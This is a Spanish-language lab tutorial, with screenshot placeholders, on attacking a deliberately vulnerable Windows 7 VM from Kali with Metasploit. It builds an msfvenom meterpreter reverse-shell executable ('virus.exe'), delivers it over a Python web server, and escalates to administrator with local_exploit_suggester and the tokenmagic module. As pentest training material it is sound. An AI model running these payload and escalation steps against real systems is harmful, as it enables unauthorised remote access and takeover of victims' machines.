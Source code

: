 Maquinas que vamos a utilizar **Kali Linux y Windows 7 Vulnerable** [https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view?usp=sharing](https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view?usp=sharing)

  

Metasploit cuenta con un módulo realmente interesante que nos permite realizar una enumeración automática de exploits que podemos utilizar en la máquina objetivo para poder escalar privilegios.

  

- Vamos a hacer una intrusión en la Maquina Windows par poder empezar la escalada de privilegios.
    - Creamos un Payload con msfvenom .
        
        ```Bash
        msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.3.4 LPORT=4444 -f exe -o virus.exe
        ```
        
        ![[Imagenes/image 59.png|image 59.png]]
        
        `windows/meterpreter/reverser_tcp` como vemos estoy cargando una sesión de meterpreter por que si queremos escalar privilegios con metasploit es muy importante recibir un meterpreter.
        
        Si al ejecutar el payload recibimos un error que que la arquitectura de bits no es compatible esto es debido a que la maquina victima tiene una arquitectura de 64 o de 32 bits y esto habría que diferenciarlo. Esto lo solucionamos volviendo a crear el payload en 64 bits pero indicándole la arquitectura de esta manera:
        
        ```Bash
        msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.3.4 LPORT=4444 -f exe -o virus64.exe
        ```
        
          
        
          
        
- Montamos un servidor en Python desde el puerto 80
    
    ```Bash
    python3 -m http.server 80
    ```
    
    ![[Imagenes/image 1 48.png|image 1 48.png]]
    

  

- Vamos a cargar el virus.exe en la maquina victima a través del explorador web.
    
    ![[Imagenes/image 2 47.png|image 2 47.png]]
    

  

- Abrimos el Metasploit para ponernos a la escucha con el **Multi/Handler**
    
    `use /multi/handler`
    
    ![[Imagenes/image 3 46.png|image 3 46.png]]
    

`show options`

`set LHOST 10.0.3.4`

![[Imagenes/image 4 44.png|image 4 44.png]]

  

- Ponemos el mismo Payload que hemos utilizado para el archivo virus. en mi caso
    
    **windows/x64/meterpreter/reverse_tcp**
    
    `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
    
    `run`
    
    ![[Imagenes/image 5 43.png|image 5 43.png]]
    

  

- En la maquina Windows ejecutamos el archivo virus.exe o virus64.exe
    
    ![[Imagenes/image 6 41.png|image 6 41.png]]
    

Y ya tenemos una sesión de meterpreter.

![[Imagenes/image 7 39.png|image 7 39.png]]

---

  

Empezamos con la escalada de privilegios.

  

`background`

![[Imagenes/image 8 37.png|image 8 37.png]]

  

> [!important] `background` se usa para enviar una sesión activa de Meterpreter al segundo plano sin cerrarla. Esto nos permite seguir interactuando con la consola de Metasploit y ejecutar otros comandos mientras la sesión sigue activa en el sistema objetivo.

  

- **Buscamos una opción que tiene Metasploit para automatizar la escalada de privilegios.**
    
    `search local_exploit_suggester`
    
    ![[Imagenes/image 9 34.png|image 9 34.png]]
    
      
    
- Lo seleccionamos y miramos las opciones
    
    `use 0`
    
    ![[Imagenes/image 10 30.png|image 10 30.png]]
    
    Nos pide el **SESSION** ID.
    
- Miramos el SESSION ID de la sesión que tengamos activa y que anteriormente hemos mandado a segundo plano con **background.**
    
    `sessions -l`
    
    ![[Imagenes/image 11 24.png|image 11 24.png]]
    

  

- Le ponemos el numero de SESSION y y miramos que este todo bien
    
    `set SESSION 1`
    
    `show options`
    
    ![[Imagenes/image 12 24.png|image 12 24.png]]
    

  

- Ejecutamos
    
    `run`
    
    ![[Imagenes/image 13 22.png|image 13 22.png]]
    
    Nos recopila un montón de posibles exploit. Lo rojos debemos ignóralos y probar uno a uno los exploit de color verde.
    
    Para no eternizarnos adelanto que este exploit va a funcionar para esta maquina.
    
    `exploit/windows/local/tokenmagic`
    
    ![[Imagenes/image 14 20.png|image 14 20.png]]
    
      
    

**La prueba de cada exploit se haría de la siguiente manera:**

  

`use exploit/windows/local/tokenmagic`

`show options`

![[Imagenes/image 15 17.png|image 15 17.png]]

  

Rellenamos la información que nos pida y cambiamos LPORT por otro ya que el 4444 lo estamos utilizando en la sesión activa.

`set SESSION 1`

`set LHOST 10.0.3.4`

`set LPORT 5555`

![[Imagenes/image 16 14.png|image 16 14.png]]

  

Ejecutamos y nos crea otra sesión de meterpreter como usuario administrador

`run`

![[Imagenes/image 17 11.png|image 17 11.png]]

  

Lanzamos un Shell y miramos que usuario soy

`shell`

`whoami`

![[Imagenes/image 18 9.png|image 18 9.png]]